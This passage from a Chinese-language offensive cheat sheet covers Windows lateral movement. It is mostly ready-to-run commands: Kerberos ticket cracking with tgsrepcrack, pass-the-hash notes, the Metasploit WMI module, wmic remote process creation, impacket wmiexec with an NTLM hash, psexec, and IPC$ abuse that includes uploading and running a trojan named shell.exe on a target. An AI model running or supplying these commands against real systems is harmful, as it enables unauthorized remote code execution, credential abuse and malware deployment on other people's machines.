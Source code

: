 ```
python tgsrepcrack.py 2.txt "1-40a10000-linghuchong@MSSQLSvc~College-DS1~1433-COLLEGE.COM.kirbi"
```

#### PTH

产生哈希传递原因：https://www.freebuf.com/articles/terminal/80186.html.

微软于2014年5月打了KB2871997补丁用来防范哈希传递，但是Administrator账号(SID为500)是例外的，使用该账户的NTLM Hash依然可以进行哈希传递

#### WMI(回显)

```
exploit/windows/local/wmi
```

#### wmic

```
wmic /node:target_ip /user:username /password:password process call create c:\shell.bat

wmic /node:target_ip /user:username /password:password process call create "cmd.exe /c net user && ipconfig"

wmic /node:target_ip /user:username /password:password process call create "cmd.exe /c shell.exe"
```

#### impackets

https://github.com/SecureAuthCorp/impacket.git

```
python wmiexec.py -hash 000000000000000000000000000000:[ntlm hash] test/administrator@target_ip "whoami"
```

#### psexec

需要远程系统开启`ADMIN$`

在启动psexec建立连接，远程系统上会安装相应 的服务，因此会留下痕迹

```
psexec \\target_ip -u amdinistrator -p password cmd   返回终端

psexec \\target_ip -u administrator -p password -s cmd /c "query user"
```

#### IPC利用

135、445口开放

```
net user \\ip\ipc$ password /user:username

上传木马：
copy shell.exe \\ip\c$\windows\temp\shell.exe

命令执行
psexec \\ip -u username -p password whoami

cscript wmicexec.vbs /cmd domain_name username password whoami

# 服务 
wmic /node:ip /user:username /password:password process call create "c:\windows\temp\shell.exe"
```
